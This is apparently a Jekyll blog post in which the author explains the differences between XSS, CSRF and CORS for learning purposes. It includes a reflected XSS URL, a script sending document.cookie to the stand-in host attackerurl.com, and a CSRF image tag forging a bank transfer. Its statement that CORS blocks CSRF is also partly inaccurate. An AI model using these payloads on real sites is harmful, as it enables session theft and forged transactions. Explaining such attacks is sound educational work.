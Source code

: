 ```yaml
---
layout: post
category : 
tags : [learning, tutorial]
---
```

{% include JB/setup %}

Recently I was working on some identity managment projects. During the investigation, I reviewed some security knowledge and found myself didn't tell three basic concepts quite well. Sometimes, I felt hard to remeber the exact scenarios of them and would misuse one of them to describe the scenario which should be another one. The three terminologies are XSS (Cross-site scripting), CSRF (Cross-site request forgery), CORS (Cross-origin resource sharing).

## **XSS (Cross-site scripting)**
Two of the most common attacks against websites and web application are XSS and CSRF. 

```
In case of XSS, the victims's trust for a website is exploited, in case of CSRF, the website's trust for a victim's browser is exploited.
```

In case of XSS, attacker would make the victim to execute a piece of injected script. Since the script would be run under the website domain which is trusted by the victim, the attacker can utlize this script to collect some information, such as cookies, and then send these sensitive information to attacker's website. 

Imagine there was a website that provides a search box and it would generate a query url as following based on the content in it each time you click the search button.

```
https://example.com/search?query=<SearchContent>
```

It works well if the search content is just some normal key words. But what if the search content is a script like following? 

```
https://example.com/search?query=<script>alert(1)</script>
```

The script can be executed in the trusted website's domain. We just emit an alert in this script, a worse case could be an injected script to collect and send user cookies like following.

```
<script>
new Image().src="http://attackerurl.com/storecookie?cookie="+document.cookie;
</script>
```

To mitigate this issue, **HTTPOnly** cookie attribute can be used to prevent access to the cookie value through JavaScript.

How could the attacker inject his script to a trusted website? This [post][2] provides some practical scenarios of the XSS attack. 


## **CSRF (Cross-site request forgery)**
In case of CSRF, attacker would try to let browser send a request to an honest website on behalf of the victim. If the victim has already logged in the honest website, these kinds of requests may get some sensitive information of the victim. 

Imagine the victim has already logged in the honest website "www.bank.com", and there was a attcker's website "www.attacker.com" whose content is 

```
<img src="https://www.bank.com/action=transfer&receiver=attacker">
```

Since the victim has already logged in, this request might be send to "www.bank.com" with victim's credentials in the cookies. Then "www.bank.com" would recognize this request is sent on behalf of the victim although it is a cross-site request.

To mitigate this issue, we could use some CORS(Cross-origin resource sharing) polices which prevents the cross-site request.

## **CORS (Cross-origin resource sharing)**
CORS(Cross-origin resource sharing) is a mechanism that allows restricted resources on a web page to be requested from another domain from which the first resource was served. By using it, we can mitigate the CSRF a little bit since the honest website would not allow the request from the attacker's domain to access victim's resources.

[1]: https://medium.com/@l4mp1/difference-between-xss-and-csrf-attacks-ff29e5abcd33
[2]: https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
[3]: https://engineering.mixmax.com/blog/modern-csrf/